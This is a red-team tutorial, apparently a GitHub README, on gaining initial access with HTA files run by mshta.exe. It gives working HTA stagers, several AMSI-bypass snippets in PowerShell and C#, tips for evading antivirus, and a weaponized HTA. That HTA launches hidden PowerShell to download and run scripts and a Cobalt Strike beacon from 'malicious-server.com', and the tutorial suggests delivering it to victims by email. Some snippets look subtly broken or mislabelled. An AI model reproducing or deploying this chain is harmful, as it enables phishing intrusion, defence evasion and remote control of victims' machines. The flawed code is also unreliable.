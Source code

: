 # Gaining initial access with HTA
Instruction on gaining initial access using mshta.exe to execute HTA files

## 1. 📚 Overview
**Basic HTA Payload**
```html
<html>
  <head><title>Pwned by zagnox</title></head>
  <body>
  <p>Hello World!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "notepad.exe"
  </script>
</html>
```
The payload above will run benign programs such as notepad or calc. If the operator attempts to drop and execute a beacon, it will most likely get **snagged by Windows Defender or other AV solutions**.

Although HTA attacks have been around for a while they are still a solid **STAGING** mechanism. In this technique I will explain the steps on how to use HTA files as simple stagers to load scripts from remote servers, patch/crash AMSI (Anti-Malware Scan Interfrace) to evade detection and then execute a web scripted delivery by Cobalt Strike to spawn a beacon.

1. Operator delivers the HTA application via email
2. Victim clicks on the application
3. VBScript runs and pulls malicious AMSI patch from remote server
4. Script launches hidden powershell and patches AMSI
5. Patched AMSI powershell session executes Cobalt-Strike beacon from remote server
6. Establish C2 communication with teamserver

---

## 2. 🍳 Crafting AMSI patching script
The operator has a couple of options to kill AMSI. The laziest option is to generate the script from [amsi.fail](https://amsi.fail/) collection. This script generator uses random trechniques from a collection of scripts. Although amsi.fail generates unique signatues at runtime for each payload they are sometimes snagged by AV. Test the payload in your lab to make sure you are successfully pathcing AMSI before serving it to your target.

⚠️ NOTE: It is important to **DISABLE Automatic Sample Submission** while experimenting in you lab. You DO NOT WANT your scripts to be sent to Microsoft sandboxes for further analysis.

The other options to patch AMSI are shown below. The powershell snippets can be tweaked and modified in order to execute and kill AMSI. Remember to use obfuscation techniques to evade defender for the scripts below.
- **Memory Patching (In-Memory AMSI Bypass)**

  By default, AmsiScanBuffer returns a status indicating whether a scan was successful. By forcing it to return AMSI_RESULT_CLEAN, all scripts will be marked as safe.
  ```powershell
  [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') |
  Get-Field -BindingFlags NonPublic,Static -Name 'amsiInitFailed' |
  Set-Value $true
  ```

- **Overwrite AmsiScanBuffer**

  Overwrite AmsiScanBuffer in memory so it always returns 0 (clean).
  ```powershell
  using System;
  using System.Runtime.InteropServices;
  
  class Program
  {
      [DllImport("kernel32")]
      static extern IntPtr GetModuleHandle(string lpModuleName);
  
      [DllImport("kernel32")]
      static extern IntPtr GetProcAddress(IntPtr hModule, string lpProcName);
  
      [DllImport("kernel32")]
      static extern bool VirtualProtect(IntPtr lpAddress, uint dwSize, uint flNewProtect, out uint lpflOldProtect);
  
      static void Main()
      {
          IntPtr amsiDll = GetModuleHandle("amsi.dll");
          IntPtr amsiScanBuffer = GetProcAddress(amsiDll, "AmsiScanBuffer");
          
          uint oldProtect;
          VirtualProtect(amsiScanBuffer, 0x0010, 0x40, out oldProtect);
          
          // Patch AmsiScanBuffer to return AMSI_RESULT_CLEAN (0)
          Marshal.WriteByte(amsiScanBuffer, 0xC3); // RET instruction
          
          VirtualProtect(amsiScanBuffer, 0x0010, oldProtect, out oldProtect);
      }
  }
  
- **Hooking AMSI API Calls**

  Instead of patching AMSI in memory, you can hook AmsiScanBuffer and return a clean result.

  ```powershell
  $memory = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(1)
  [System.Runtime.InteropServices.Marshal]::WriteByte($memory, 0xC3) # RET instruction
  [System.Runtime.InteropServices.Marshal]::Copy($memory, 0, [System.Runtime.InteropServices.Marshal]::GetFunctionPointerForDelegate(
    [System.Delegate]::CreateDelegate([System.Func[IntPtr, IntPtr, uint, uint]], $memory)), 1)

  ```


A fairly simple way to chain the commands is to embed the Cobalt Strike web-scripted delivery to execute after the script has been executed:
```powershell
[sYStEm.tEXt.enCOdIng]::unICOdE.GetsTrIng([SystEm.conVERT]::fRoMBaSe64string("base64 encode script here")) | IEX; IEX (curl 'http://malicious-server.com/beacon')
```

## 3. ☣️ Weaponizing the HTA

Once you have a script that will patch AMSI it is time to weaponize the HTA payload:

```html
<html>
  <head><title>BE CREATIVE</title></head>
  <body>
  <p>Hi! This is an important notification!</p>
  </body>

  <script language="VBScript">
    Set shell = CreateObject("wscript.Shell")
    shell.run "powershell -nop -w -hidden -e <base64 this IEX (curl http://malicious-server.com/patch-amsi.ps1)>"
  </script>
</html>
```
## 

![Patching amsi and executing beacon. AV evaded](https://github.com/user-attachments/assets/e66b2048-0a56-4bdc-ad4d-b434f880fb1f)


![CS Beacon](https://github.com/user-attachments/assets/8a4c873c-2f2c-4fab-8a95-df037a8deac1)
